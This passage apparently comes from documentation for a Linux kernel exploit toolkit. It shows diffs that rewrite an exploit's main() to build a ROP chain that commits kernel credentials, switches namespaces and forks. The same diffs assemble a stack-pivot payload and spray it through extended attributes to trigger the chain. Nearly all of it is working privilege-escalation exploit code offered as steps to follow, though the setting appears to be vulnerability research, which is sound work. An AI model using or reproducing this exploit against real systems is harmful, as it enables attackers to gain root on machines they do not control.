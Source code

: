 The steps to substitude deleted sections could be like this:

* Following ["Building the Payload" section of "How to Get Started" guide](how_to_get_started.md#building-the-payload) modify `main()` function of the exploit to rely on expkit and previously calculated sizes / offsets:

    ```diff
    @@ -290,9 +331,39 @@
        }
        printf("[*] Leaked kernel base: %p\n", kernel_base);

    +    printf("[+] ROP chain:\n");
    +    RopChain rop(target, kernel_base);
    +    rop.AddRopAction(RopActionId::COMMIT_KERNEL_CREDS);
    +    rop.AddRopAction(RopActionId::SWITCH_TASK_NAMESPACES, {1});
    +    rop.AddRopAction(RopActionId::TELEFORK, {100000});
    +    HexDump::Print(rop.GetData());
    +    printf("[+] ROP chain size: %d\n", rop.GetData().size());
    +
    +    Payload payload1(rop_off);
    +    Payload payload2(sk_destruct_off + 8);
    ```

* In the same fasion as described in ["Assembling the Final Payload with PayloadBuilder section"](how_to_get_started.md#assembling-the-final-payload-with-payloadbuilder) the payload buffer could be prepared for spraying:

    ```diff
    +    PayloadBuilder builder(target.pivots, kernel_base); // create builder
    +
    +    builder.AddPayload(payload1, std::nullopt, std::nullopt);
    +    builder.AddPayload(payload2, Register::RBP, sk_destruct_off); // add payload, with register, and rip_offset
    +    builder.AddRopChain(rop); // add a rop chain
    +    if(!builder.Build()) exit(-1); // build it
    +
    +    builder.PrintDebugInfo();
    +
    +    printf("[+] Stack pivot and ROP part of payload:\n");
    +    HexDump::Print(payload2.GetData());
    +    printf("Stack pivot and ROP part of payload: %d\n", payload2.GetData().size());

    +    std::vector<uint8_t> full_payload;
    +    full_payload.insert(full_payload.end(), payload1.GetData().begin(), payload1.GetData().end());
    +    full_payload.insert(full_payload.end(), payload2.GetData().begin(), payload2.GetData().end());
    +
    +    printf("[+] Full payload:\n");
    +    HexDump::Print(full_payload);
    +    printf("Full payload size: %d\n", full_payload.size());
    +
    ```

* Final modification to `main()` to adjust spraying routine to use `Payload` buffer look like this:

    ```diff
        /* Trigger ROP */
    -    prepare_rop(xattr_data, kernel_base);
    -    spray_simple_xattrs(XATTR_SPRAY2, xattr_data, XATTR_DATA_LEN2);
    +    spray_simple_xattrs(XATTR_SPRAY2, full_payload.data(), full_payload.size());
